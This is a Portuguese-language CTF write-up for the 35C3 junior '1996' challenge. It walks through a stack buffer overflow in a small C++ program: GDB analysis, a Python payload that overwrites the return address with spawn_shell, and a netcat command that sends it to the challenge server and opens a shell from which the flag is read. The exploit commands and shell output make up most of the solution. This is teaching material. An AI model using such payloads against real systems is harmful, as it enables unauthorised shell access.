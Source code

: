 ## Nome:  1996  [35C3 CTF](https://ctftime.org/event/718)

### Dificuldade: Muito fácil

### [](https://github.com/kontez/writeups/blob/master/35C3junior.md#description-6)Descrição: 
It's  [1996](https://35c3ctf.ccc.ac/uploads/juniorctf/1996-846a46384ff5d85d861c09fc49912def510336e0.zip)  all over again!
`nc 35.207.132.47 22227`


## Levantamento de informações
*Ao baixarmos e extrairmos o arquivo zip, obtemos 2 novos arquivos:*

    root@kali:~/Downloads# unzip 1996-846a46384ff5d85d861c09fc49912def510336e0.zip
    
        Archive: 1996-846a46384ff5d85d861c09fc49912def510336e0.zip
    
        inflating: 1996.cpp
    
        inflating: 1996
*Ao abrirmos o arquivo 1996.cpp, podemos ver o seguinte código:*

    // compile with -no-pie -fno-stack-protector
    
    #include <iostream>
    #include <unistd.h>
    #include <stdlib.h>
    
    using namespace std;
    
    void spawn_shell() {
        char* args[] = {(char*)"/bin/bash", NULL};
        execve("/bin/bash", args, NULL);
    }
    
    int main() {
        char buf[1024];
    
        cout << "Which environment variable do you want to read? ";
        cin >> buf;
    
        cout << buf << "=" << getenv(buf) << endl;
    }

 - *observando o código acima, podemos ver que existe um **buf** com tamanho de **1024***
 - Rodando o comando **File** no linux, obtemos as seguintes informações do binário:
    
        root@kali:~/Downloads# file 1996
        1996: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b17d4a3919a3b046b03d35e2fdba47cd94d6aef, not stripped
    
    
## Solução
*Utilizando o [GDB](https://www.gnu.org/software/gdb/), podemos visualizar o endereço da função **spawn_shell( )** vista no código cpp:*

    (gdb) info functions
          all defined functions
          ...
          ...
          ...
          ...
          0x0000000000400897 spawn_shell( )
*analisando a função principal do programa, definimos alguns breakpoints para iniciar a solução*

    

    (gdb) disas main
        
        Dump of assembler code for function main:
        0x00000000004008cd <+0>: push %rbp   
        0x00000000004008ce <+1>: mov %rsp,%rbp    
        0x00000000004008d1 <+4>: push %rbx    
        0x00000000004008d2 <+5>: sub $0x408,%rsp    
        0x00000000004008d9 <+12>: lea 0x188(%rip),%rsi # 0x400a68    
        0x00000000004008e7 <+26>: callq 0x400760 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>    
        0x00000000004008ec <+31>: lea -0x410(%rbp),%rax   
        0x00000000004008f3 <+38>: mov %rax,%rsi  
        0x00000000004008f6 <+41>: lea 0x200883(%rip),%rdi # 0x601180 
        ...
        ...
        ...    
        0x0000000000400965 <+152>: pop %rbx
        0x0000000000400966 <+153>: pop %rbp
        0x0000000000400967 <+154>: retq
     
        End of assembler dump.

    (gdb) b * 0x0000000000400959 
         Breakpoint 1 at 0x0000000000400959 
        
*Sabendo do tamanho do nosso buf, usamos o python para criar nosso Payload*

    r <<< $(python -c 'print "A" * 1040 + "B"*14')
*Após alguns testes, obtemos o controle do registrador **rip**, responsável por obter o endereço da instrução seguinte.*

    (gdb) info registers

*Com isso, basta sobrescrevermos o endereço de **rip** por **0x0000000000400897**, endereço da função **spawn_shell( )**.*

    r <<< $(python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"')
* *O endereço da função **spawn_shell** deve ser utilizado em [Little Endian ](https://edisciplinas.usp.br/pluginfile.php/149774/mod_resource/content/1/03-Endianess-v2.pdf)*

*Para enviarmos o Payload ao servidor, utilizamos o **|** para concatenar nossa linha de código com a conexão ao servidor.*

    (python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"') | nc 35.207.132.47 22227
   *Não obtemos erro, porém, a conexão é quebrada logo em seguida. Para corrigirmos isto, concatenamos " **;cat**" à nossa linha de código. O cat fará com que o **/bin/bash** mantenha-se ativo enquanto estivermos conectados ao servidor*

        (python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"';cat) | nc 35.207.132.47 22227
    ...
    ...
    ...
    
    Wich environment variable do you want to read? AAAAAAAAAA
    AAAA.......@=ls
    
    1996
    bin
    boot
    dev
    etc
    flag.txt
    home
    lib
    ....
    cat flag.txt
### Flag: 35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14

> Recomendações para entendimento geral

 - [x86_64 assembly](https://www.cs.uaf.edu/2017/fall/cs301/reference/x86_64.html)
 - [Buffer_overflows_really_simple](http://www.cse.chalmers.se/edu/course/EDA263/oh15/L03%20buffer_overflows_really_simple--print.pdf)
